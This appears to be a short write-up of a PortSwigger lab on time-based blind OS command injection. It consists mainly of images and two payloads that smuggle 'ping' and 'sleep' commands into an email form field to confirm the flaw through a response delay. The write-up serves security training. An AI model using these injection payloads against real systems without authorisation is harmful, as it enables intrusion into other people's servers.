 ## Lab Description:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6bc8b48c-8ac2-4bff-adad-b947cafc1081)

## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ef93108c-cddd-4882-93ae-2116d15d8cc8)
```sql
email=jay%40gmail.com||ping+-c+10+127.0.0.1||
```
with ping command we can delay the response by 10 seconds
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/113502bb-c43a-4304-833e-b4f673dd005f)
```sql
email=jay%40gmail.com||sleep+10||
```
By adding the & sleep # (Note the space before & and after #) / & sleep 10 &(URL-encode before sending) , we can see that the email parameter is vulnerable to command injection vulnerability, since there was time delay of 10 seconds.
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e0fb81c6-d282-4467-8a68-b6a85673aff5)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1b5dd773-8a9f-4a30-a5f2-bb2ad9e5fa1d)
